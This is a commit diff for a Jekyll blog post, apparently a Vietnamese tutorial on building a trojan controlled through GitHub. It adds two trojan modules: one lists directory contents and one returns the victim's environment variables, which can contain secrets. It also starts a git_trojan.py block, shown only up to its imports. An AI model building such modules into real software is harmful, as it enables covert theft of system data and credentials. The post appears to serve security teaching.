

Before and after one commit to ybvy/ybvy.github.io, a Jekyll site: the page built from _posts/2025-03-21-trojan-with-github.md, in a window 1280 px wide and 1400 px high, scrolled down 531 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
add post trojan

```diff
--- a/_posts/2025-03-21-trojan-with-github.md
+++ b/_posts/2025-03-21-trojan-with-github.md
@@ -41,11 +41,38 @@ bhptrojan
 ├── git_trojan.py
 ├── modules
 │   ├── dirlister.py
-│   └── enviroment.py
+│   └── environment.py
 └── my_token.txt
 {% endhighlight %}
 
+---
+## Module
 >Python
+{:.dirlister.py}
+{% highlight python lineos %}
+import os
+
+def run(**args):
+    print("[*] In dirlister module.")
+    files = os.listdir('.')
+    return str(files)
+{% endhighlight %}
+
+>Python
+{:.environment.py}
+{% highlight python lineos %}
+import os
+
+def run(**args):
+    print("[*] In enviroment module.")
+    return os.environ
+{% endhighlight %}
+
+Ở 2 module này đều có phương thức `run` để tiện cho việc gọi hàm, trả lại dữ liệu sau khi thực thi.
+Có thể thêm các module khác tùy ý.
+
+>Python
+{:.git_trojan.py}
 {% highlight python lineos %}
 import base64
 import github3
```
